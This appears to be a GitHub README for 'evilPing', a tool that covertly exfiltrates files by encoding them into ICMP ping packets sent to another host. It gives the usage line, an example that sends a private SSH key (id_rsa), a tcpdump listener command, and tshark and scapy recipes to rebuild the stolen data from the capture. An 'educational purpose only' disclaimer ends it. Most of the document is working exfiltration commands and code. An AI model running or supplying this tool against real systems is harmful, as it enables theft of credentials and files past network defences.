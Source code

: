 # evilPing
This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```
![Running](img/test.png)

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```
![Listen](img/listen.png)

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.56.1 -Y icmp.type==8 | tail -n +2 | cut -c 17-48 | xxd -r -p
```
![Result](img/result.png)

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet[1:]:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
